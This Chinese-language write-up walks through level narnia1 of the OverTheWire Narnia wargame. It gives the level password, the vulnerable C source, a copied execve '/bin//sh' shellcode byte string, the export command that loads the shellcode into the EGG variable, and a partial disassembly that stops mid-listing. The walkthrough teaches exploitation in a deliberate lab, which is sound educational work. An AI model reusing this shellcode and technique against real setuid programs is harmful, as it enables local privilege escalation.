 
好了, 进行到这里, 我们已经获得了narnia1关卡的密码**efeidiedae**, 接下来就用narnia0关卡中学到的知识和思路, 去寻找在narnia1程序中启动一个shell的方法吧~

###第1关:覆盖函数指针  
使用narnia1作为用户名登录narnia服务器:  

	ssh -l narnia1 narnia.labs.overthewire.org  
	
我们找到narnia1.c来一看究竟:  

	#include <stdio.h>

	int main(){
		int (*ret)();

		if(getenv("EGG")==NULL){
			printf("Give me something to execute at the env-variable EGG\n";
			exit(1);
		}

		printf("Trying to execute EGG!\n");
		ret = getenv("EGG");
		ret();

		return 0;
	}
	
好单纯的代码, getenv函数会返回名字为"EGG"的环境变量字符串的地址, 我们看到代码中把该地址赋值给ret函数指针, 接下来调用ret函数的时候, 实际上代码会跳转到EGG环境变量的字符串地址上, 这里有个重要思想是, **数据即代码**, 虽然在正常意义上来讲环境变量只是字符串, 但是对于计算机来说, 它会把eip寄存器指向的地址放的任何东西看作是代码, 所以我们只要在EGG的字符串内容里放入代码, 当ret函数调用的时候, 会jmp倒ret函数的地址处, 此时eip的值就是函数的地址, 所以我们放入的代码就会被执行, 其实这种伪装成数据的代码有一个帅气的名字: **Shellcode** . 前面已经讲过narnia1是一个拥有narnia2用户权限的二进制文件, 如果narnia1中创建shell子进程, 则该shell讲拥有narnia2的用户权限, 这样我们就可以访问narnia2用户的密码了, 所以我们要插入的shellcode的功能就是创建一个shell, 其实早先大部分shellcode的功能都是创建shell, 这可能也是Shellcode名称的由来. 那么如何编写Shellcode呢, 方法有很多, 你完全可以用C语言编写一段启动Shell的代码, 然后将它进行汇编, 编译形成2进制串, 这个二进制串就是Shellcode, 鉴于完整的讲述如何生成Shellcode需要花费较多篇幅, 我们偷个懒直接从大牛的网站copy一份过来, 比如这里 : [shellcode-811](http://www.shell-storm.org/shellcode/files/shellcode-811.php).  

	char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                       "\x68\x68\x2f\x62\x69\x6e\x89"
                       "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                       "\xcd\x80\x31\xc0\x40\xcd\x80";
                       
接下来就是把Shellcode伪装的字符串放入环境变量中了, 一行命令即可:  

	export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
	
这时我们再执行 `./narnia1` ,会发现我们成功地启动了shell, 轻松获得了narnia2用户的密码:  
![image](https://raw2.github.com/esrever10/Img-store/master/narnia1.png)  
如果你还云里雾里, 那么我们来跟踪下汇编代码, 看看发生了什么?  

	0x08048434 <+0>:	push   ebp
	0x08048435 <+1>:	mov    ebp,esp
	0x08048437 <+3>:	and    esp,0xfffffff0
	0x0804843a <+6>:	sub    esp,0x20
	0x0804843d <+9>:	mov    DWORD PTR [esp],0x8048560
	0x08048444 <+16>:	call   0x8048330 <getenv@plt>
	0x08048449 <+21>:	test   eax,eax
	0x0804844b <+23>:	jne    0x8048465 <main+49>
	0x0804844d <+25>:	mov    DWORD PTR [esp],0x8048564
	0x08048454 <+32>:	call   0x8048340 <puts@plt>
	0x08048459 <+37>:	mov    DWORD PTR [esp],0x1
	0x08048460 <+44>:	call   0x8048360 <exit@plt>
	0x08048465 <+49>:	mov    DWORD PTR [esp],0x8048599
	0x0804846c <+56>:	call   0x8048340 <puts@plt>
	0x08048471 <+61>:	mov    DWORD PTR [esp],0x8048560
	0x08048478 <+68>:	call   0x8048330 <getenv@plt>
	0x0804847d <+73>:	mov    DWORD PTR [esp+0x1c],eax
	0x08048481 <+77>:	mov    eax,DWORD PTR [esp+0x1c]
	0x08048485 <+81>:	call   eax
	0x08048487 <+83>:	mov    eax,0x0